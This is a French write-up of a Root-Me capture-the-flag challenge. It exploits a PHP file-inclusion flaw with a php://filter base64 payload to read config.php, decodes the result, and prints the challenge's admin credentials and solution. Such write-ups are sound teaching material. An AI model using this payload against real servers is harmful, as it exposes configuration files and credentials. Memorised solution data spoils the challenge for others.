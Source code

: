 ## Introduction
Dans ce challenge, nous exploitons une vulnérabilité d'inclusion de fichier en utilisant le filtre `php://filter` afin de récupérer des informations sensibles stockées dans un fichier de configuration.

## Étape 1 : Identification du paramètre vulnérable
Le paramètre `inc` est utilisé pour inclure dynamiquement un fichier via `include` ou `require`. Si aucune validation n'est effectuée, il est possible d'inclure des fichiers arbitraires présents sur le serveur.

Exemple d'URL vulnérable :
```plaintext
http://www.root-me.org/challenge/web-serveur/ch12/?inc=config.php
```

## Étape 2 : Exploitation avec `php://filter`
Plutôt que d'exécuter le fichier PHP, ce qui empêcherait d'afficher son contenu, nous pouvons l'encoder en Base64 pour le récupérer sous forme lisible.

Nous utilisons l'URL suivante :
```plaintext
http://www.root-me.org/challenge/web-serveur/ch12/?inc=php://filter/read=convert.base64-encode/resource=config.php
```
Cette requête encode le contenu du fichier `config.php` en Base64 et nous renvoie une chaîne de caractères.

## Étape 3 : Décodage de la réponse
Supposons que nous obtenons la réponse suivante :
```plaintext
PD9waHAKCiR1c2VybmFtZT0iYWRtaW4iOwokcGFzc3dvcmQ9IkRBUHQ5RDJta3kwQVBBRiI7Cgo/Pg==
```
Nous pouvons la décoder en utilisant la commande suivante en terminal Linux :
```bash
echo 'PD9waHAKCiR1c2VybmFtZT0iYWRtaW4iOwokcGFzc3dvcmQ9IkRBUHQ5RDJta3kwQVBBRiI7Cgo/Pg==' | base64 -d
```

Le résultat est :
```php
<?php

$username="admin";
$password="DAPt9D2mky0APAF";

?>
```

## Étape 4 : Utilisation des identifiants
Nous pouvons maintenant utiliser ce couple identifiant/mot de passe pour nous connecter. Une fois authentifiés, nous validons le challenge avec le message :
```plaintext
To validate the challenge use this password
```
